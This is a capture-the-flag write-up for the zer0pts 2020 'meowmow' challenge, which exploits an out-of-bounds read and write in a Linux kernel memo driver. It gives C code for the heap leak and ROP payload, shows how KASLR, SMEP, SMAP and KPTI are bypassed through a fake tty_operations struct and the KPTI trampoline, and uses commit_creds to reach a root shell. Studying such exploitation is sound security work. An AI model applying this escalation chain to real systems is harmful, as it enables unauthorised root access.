

# zer0pts 2020 meowmow writeup  
## Environment  
In this challenge we have 4 file given: a linux image, a rootfs file, the program code of a kernel driver and a starting script (these can be found in the original folder). By running the start.sh script, we get a qemu machine running some kind of linux.  
  
We can see, that we are a simple user, and our goal is to read a file, that is owned by the root user, so we need to escalate our privileges. For that we need some testing environment and we need a way to copy our exploit program onto this machine. To do that, we need to modfy the rootfs.cpio file.  
To unpack this, let's create a folder for it (I used fs) and use the following command while in the target directory:  
```
sudo cpio -idv < ../rootfs.cpio
```  
Now we can play around with the file system. It is important to use sudo for this, because we don't want to mess with the permissions while rebuilding this file and runnign the qemu instance. Before building this image, let's check the init script in the fs. It installs some drivers, that we will use during the exploitation, but there is this line in the code, that changes the current user from root to user. I recommend modifying it for now, because we will have way easier time creating the exploit.  
```bash
setsid /bin/cttyhack setuidgid 0 /bin/sh
#setsid /bin/cttyhack setuidgid 1000 /bin/sh
```  
Now, if we want to build the cpio image from this, navigate to this directory and run the following command:  
```
sudo find ./ | sudo cpio -o --format=newc > ../pwn.cpio
```  
One more step to use this fs is to modify the start.sh script so that it uses this image as the fs:  
```bash
- initrd ./pwn.cpio \
```  
As we already see the start script, it is worth to mention, that we can see here, that many security countermeasures are turned on: SMEP, SMAP, KASLR and KPTI are all turned on. So in the exploit we need to bypass them. But to be able to do that, we need to gather rop gadget addresses, and to do that, we can turn off some countermeasures here (I will turn off KASLR for a while) to make our life easier.  
But now if we run the start script, we can see, that we get the same environment and we are root, so we can open the flag file too.  
We will need to be able to debug this kernel module too. For debug reasons, I downloaded the linux kernel with the exact same version that is used here (4.19.98). But we cannot see any config files which can tell us, which configuration was used to build the kernel. Since I couldn't do much, I simply used the defconfig and the only change I made is to generate debug symbols and generate a python file we can use with gdb. For this debug machine I copied the unpacked file system, and put a recompiled version of the kenrel module which contains kernel symbols too. Finally I created a new start script for this too, which is the same as the start.sh, but I changed the linux image and the fs to the debug variants. Furthermore I added the -s switch to the qemu command, so I can debug remotely with gdb.  
## The vulnerability  
Now that we are ready with the envrionment, we can start the exploitation. Since we got the source code of the memo kernel module, it is a good guess, to look for vulnerabilities in there. After an undue amount of reading I finally found the error in this code. Actually two errors: in mod_write and in mod_read:  
```C
static ssize_t mod_read(struct file *filp, char __user *buf, size_t count, loff_t *f_pos)
{
  if (filp->f_pos < 0 || filp->f_pos >= MAX_SIZE) return 0;
  if (count < 0) return 0;
  if (count > MAX_SIZE) count = MAX_SIZE - *f_pos;
  if (copy_to_user(buf, &memo[filp->f_pos], count)) return -EFAULT;
  *f_pos += count;
  return count;
}

static ssize_t mod_write(struct file *filp, const char __user *buf, size_t count, loff_t *f_pos)
{
  if (filp->f_pos < 0 || filp->f_pos >= MAX_SIZE) return 0;
  if (count < 0) return 0;
  if (count > MAX_SIZE) count = MAX_SIZE - *f_pos;
  if (copy_from_user(&memo[filp->f_pos], buf, count)) return -EFAULT;
  *f_pos += count;
  return count;
}
```  
As we can see, these functions do several checks on read/write lengths to make sure we are not overreading/writing the buffer, that is allocated on the heap (memo pointer), But there is a logic error. The driver uses llseek to set the cursor, from which the read or the write should begin. This cursor is the `filp->f_pos`. These functions check, if it is smaller than 0, or greater or equals to the maximum size, which is 1024 bytes. Then it checks, if the read/write length is smaller than 0 or greater than MAX_SIZE. If it is greater, then it is reduced to maximally reach the end of the buffer. BUT  
These functions never check, if the cursor+count sum is greater than the max size. Because of this, and because we have an lseek operation on this file, we can set the cursor to the MAX_SIZE-1 byte of the buffer, and read/write the length of MAX_SIZE, and this way we are able to read almost the whole 1024 byte struct which comes after this struct in the kmalloc-1024 bin (because this buffer is 1024 bytes long). Thus we have a kmalloc overflow vulnerability.  

## Plan on controlling the RIP  
Our goal now is to control the instruction pointer to be able to rop our way into root privileges. For that we need to find a kernel struct that is allocated in the kmalloc-1024 bin and in some way contains a function pointer we can overwrite. The best struct for our case is the `tty_struct`. It's a big struct, but the important parts are in the beginning:  
```C
struct tty_struct {
	int	magic;
	struct kref kref;
	struct device *dev;
	struct tty_driver *driver;
	const struct tty_operations *ops;
	int index;

	/* Protects ldisc changes: Lock tty not pty */
	struct ld_semaphore ldisc_sem;
	struct tty_ldisc *ldisc;
  ...
} __randomize_layout;
```  
The most important field is the ops pointer, which points to the `tty_operations` struct, which looks like this:  
```C
struct tty_operations {
	struct tty_struct * (*lookup)(struct tty_driver *driver,
			struct file *filp, int idx);
	int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
	void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
	int  (*open)(struct tty_struct * tty, struct file * filp);
	void (*close)(struct tty_struct * tty, struct file * filp);
	void (*shutdown)(struct tty_struct *tty);
	void (*cleanup)(struct tty_struct *tty);
  ...
} __randomize_layout;
```  
So it essentially holds many function pointers for different file structs, which we can call through the `ptmx` device file, which is created in the init script.  
```bash
/sbin/mdev -s
mkdir -p /dev/pts
mount -vt devpts -o gid=4,mode=620 none /dev/pts
chmod 666 /dev/ptmx
```  
This helps us too, that this is the right struct for kmalloc overflow. So what is the plan? We allocate the memo buffer by opening the device file, then allocating the `tty_struct` (we don't need spraying because there is almost no programs on the machine). We can allocate this with the following function:  
```C
int allocate_tty_struct(){
	int ret;

	ret = open("/dev/ptmx", O_RDWR | O_NOCTTY);
	if(ret < 0){
		printf("[-] Failed to allocate tty_struct\n");
		perror("tty_struct");
	}
	return ret;
}
```  
The O_NOCTTY flag is important if we want to allocate this struct. After we are done with the allocations, we can overread the memo buffer, and leaking fields of the tty_struct. Then we have to rewrite the ops pointer to a fake tty_operations struct, which has fake function addresses, that point to our ROP stacklift. But this is not easy to do. We have to bypass the afore mentioned mitigations.  

## Bypassing mitigations  
As we know from the previous excercises, we need to use a ROP chain to bypass SMEP. But now we have a problem: we have SMAP turned on. This doesn't let us to store the rop chain in our user space buffer, we need to somehow store it in the kernel. For that, we can use the memo buffer. But another problem: we need the address of the memo buffer, which is kinda hard, since it is allocated dynamically and we have KASLR turned on. So before performing this we need to somehow bypass KASLR.  
This is not even that hard. We need a fix address that we can read from the kernel heap and we need to find that offset, to calculate a base address, and then we will be able to calculate offsets to te needed entities and add them to the base address. So, how do we do that?  
After reading the kernel source a lot and examining the kernel heap in our debug machine I noticed, that the tty_operations pointer is always the same. This is because the tty_structs basically uses the [ptm_unix98_ops](https://elixir.bootlin.com/linux/latest/source/drivers/tty/pty.c#L766) instance of the struct. To get its offset, we can turn off kaslr and dump the leaked heap content.  
  

It is worth mentioning, that here I already clipped the last byte of the memo buffer, so we don't have shifted addresses here. This is purely the content of the tty_struct. If we examine the layout of the struct, we will know, that the fourth 8 byte is the tty_operations address. So we have a fix address, now we need to name a base address, from which we will calculate the rest of the addresses. I choose `_stext` address, which we can read from kallsyms:  
```
/ # cat /proc/kallsyms | grep _stext
ffffffff81000000 T _stext
```  
So, from the difference of these two addresses we can calulate an offset, we can use for bypassing KASLR. This offset is for example `0xe65900`. Now we have a base address, but we need to find the address of the heap somehow. If we read the kernel code carefully and debug with gdb a little bit, we will see, that is an address in tty_struct, which essentially points to itself. The filed after ops is ld_sem, which is an `ld_semaphore` struct, which looks like this:  
```C
struct ld_semaphore {
	atomic_long_t		count;
	raw_spinlock_t		wait_lock;
	unsigned int		wait_readers;
	struct list_head	read_wait;
	struct list_head	write_wait;
#ifdef CONFIG_DEBUG_LOCK_ALLOC
	struct lockdep_map	dep_map;
#endif
};
```  
From here, the read_wait filed, which is a `list_head` struct, contains 2 pointers: a next and a prev pointer.  
```C
struct list_head {
	struct list_head *next, *prev;
};
```  
This essentially contains a list of structs, where they want to read the same file. Since we have only this struct, both pointers will point here, and with gdb we can assure, that they both point here:  
  
We can see these 2 addresses in the image above too (the two addresses after the 3 nulls). After calculating we will know, that this address is 0x38 bytes after the beginning of the tty struct, so we know, that the address of the memo buffer is `leaked address - 0x38 - 0x400`. Now we can work with the heap as a rop buffer.  

## ROP gadgets  
Now let's go to the fun part. We need a ROP chain to escalate our privileges. To gather ROP gadgets, we need to extract a vmlinux file from the bzImage that was given to the challenge. To do that, we can use the extract-vmlinux script from the built kernel (scripts/extract-vmlinux). Now we can run ROPgadget on this file.  
Before calling prepare_kernel_cred and commit_creds, we need to perform a stacklift. That is a gadget, we will use instead of the tty_ops callback, and with that we can continue the rop chain. For this we need a gadget, that modifies the rsp to an arbitrary value. Sadly there are gadgets that are simply not working. I initially found a gadget, that pushes the rdx register, then pops this into rsp. But I got bad rip error, no matter what i've tried. I tried some more gadgets, but only one seemed to work.  
This is a `push r12 ; add dword ptr [rbp + 0x41], ebx ; pop rsp ; pop r13 ; ret` gadget. This is good, because if we use the ioctl syscall to call the ioctl callback from tty_ops, the third argument (rcx) will be put in r12. Yes, rcx will only contain 4 bytes (since it's an integer), but we will have no problem with that, because rsp will already contain the base in itself, so changing the last 4 bytes will be enough to get the right address.  
  
So this will be a good stack lift. Next, we want to perform the prepare_kernel_cred and commit_creds functions. We can find these offsets again while we turn off kaslr, and there is a nice clean `pop rdi; ret` gadget. As for the mov rdi, rax instruction, there is a clean one, but somehow it doesn't work. The other two possible gadgets contain a rep instruction, which basically doest the following instruction i times, where i is stored in rcx. So, this is the gadget:  
```
mov rdi, rax ; rep movsd dword ptr [rdi], dword ptr [rsi] ; ret
```  
Here, if rcx contains 5, the movsd dword ptr[rdi], dword ptr[rsi] instruction will be executet 5 times. So if we set the rcx to 0, it will not be executed, and we have a clean `pop rcx` gadget. But one interesting thing: there is another gadget, that is almost like this, but instead of movsd it says movsq. Somehow, the movsd variant doesn't want to work. But the movsq works flawlessly, so use that instead.  
The next step would be the swapgs and iretq. But since we have kpti enabled, we won't be able to do them separately. But there is a function in the kernel code, which does both of them: `swapgs_restore_regs_and_return_to_usermode`. Using this function is called the `kpti trampoline`. We can look at the code in gdb.  
```
0xffffffff81a00a2f <+47>:	pop    r15
0xffffffff81a00a31 <+49>:	pop    r14
0xffffffff81a00a33 <+51>:	pop    r13
0xffffffff81a00a35 <+53>:	pop    r12
...
0xffffffff81a00a45 <+69>:	mov    rdi,rsp
0xffffffff81a00a48 <+72>:	mov    rsp,QWORD PTR gs:0x5004
0xffffffff81a00a51 <+81>:	push   QWORD PTR [rdi+0x30]
0xffffffff81a00a54 <+84>:	push   QWORD PTR [rdi+0x28]
0xffffffff81a00a57 <+87>:	push   QWORD PTR [rdi+0x20]
0xffffffff81a00a5a <+90>:	push   QWORD PTR [rdi+0x18]
0xffffffff81a00a5d <+93>:	push   QWORD PTR [rdi+0x10]
0xffffffff81a00a60 <+96>:	push   QWORD PTR [rdi]
0xffffffff81a00a62 <+98>:	push   rax
0xffffffff81a00a63 <+99>:	jmp    0xffffffff81a00aa8 <common_interrupt+168>
...
0xffffffff81a00aa8 <+168>:	pop    rax
0xffffffff81a00aa9 <+169>:	pop    rdi
0xffffffff81a00aaa <+170>:	swapgs 
0xffffffff81a00aad <+173>:	jmp    0xffffffff81a00ad0 <common_interrupt+208>
...
0xffffffff81a00ad0 <+208>:	test   BYTE PTR [rsp+0x20],0x4
0xffffffff81a00ad5 <+213>:	jne    0xffffffff81a00ad9 <common_interrupt+217>
0xffffffff81a00ad7 <+215>:	iretq 
...
```  
Well, it does a lot of things, but in the end it will call swapgs, and based on the saved registers restores the user mode state using iretq. But as we can see, it does a lot of pop instructions. We don't want that. We can simply add 22 to the address, and we will start immediately ad the `mov rdi, rsp` instruction. In the end it will do the iretq and return us to userland bypassing kpti. The `pop rax` and `pop rdi` worth mentioning ,because we will have to add some arbitrary values on the rop chain to keep consistency.  
Now, that are the gadgets we need (again, the offset of this function can be calculated using kallsyms without kaslr). We can put this chain into the memo buffer.  
```C
payload[off++] = 0;
payload[off++] = base + POP_RDI_RET;
payload[off++] = 0;
payload[off++] = base + OFF_PKC;
payload[off++] = base + POP_RCX_RET;
payload[off++] = 0;
payload[off++] = base + MOV_RDI_RAX;
payload[off++] = base + OFF_CC;
payload[off++] = base + KPTI_TRAMPOLINE + 22;
payload[off++] = 0; // pop rax
payload[off++] = 0; // pop rdi
payload[off++] = (unsigned long)spawn_shell;
payload[off++] = user_cs;
payload[off++] = user_rflags;
payload[off++] = user_sp;
payload[off++] = user_ss;
...
printf("[+] Sending ROP code\n");
write_driver((char*)payload, MAX_SIZE);
```  
But before sending this payload, we should think about the slub overflow a litle bit.  

## SLUB overflow  
Soo, we know, that we want to modify the tty_opetartions pointer to be able to modify one of the callback function pointers to controll rip. But we have one problem: we cannot put this struct into any user space buffer, because SMAP prevents us to read user space addresses in kernel mode. But we can use the memo buffer again to hold this fake struct. So we need a fake tty_operations struct, and set its (for example) ioctl callback pointer to the address of the stacklift gadget.  
```C
struct tty_operations{
	void *lookup;
	void *install;
	void *remove;
	void *open;
	...
	void *ioctl;
	...
	void *proc_show;
};
```  
```C
...
payload[off++] = user_ss;

memcpy((char*)payload + (off * sizeof(unsigned long)), &ops, sizeof(ops));
unsigned long offs_addr = heap + (off * sizeof(unsigned long));
...
((unsigned long*)distilled)[3] = offs_addr;
...
```  
(Here I used the distilled buffer to work easier with the leaked heap content, basically the last byte of the memo buffer is deleted. I set the fourth address, which is the tty_ops in tty_struct to the fake struct's address.)  
After we have written the new value back in to the kernel heap it is time to trigger the exploit. For that we need to call ioctl on the file descriptor we got when we allocated the tty_struct.  
```C
ioctl(ttyfd, heap, heap);
```  
Here I set both parameters to the heap address, which is the beginning of our rop chain, tho there was no need to set the third argument, which is just an integer, thus only the 4 lower bytes will be passed, but it is easier to see later in gdb which parameter is where. But the important part is, that in ioctl the heap address will be copied into the r12 register. Now we are done with the exploit, check it out.  

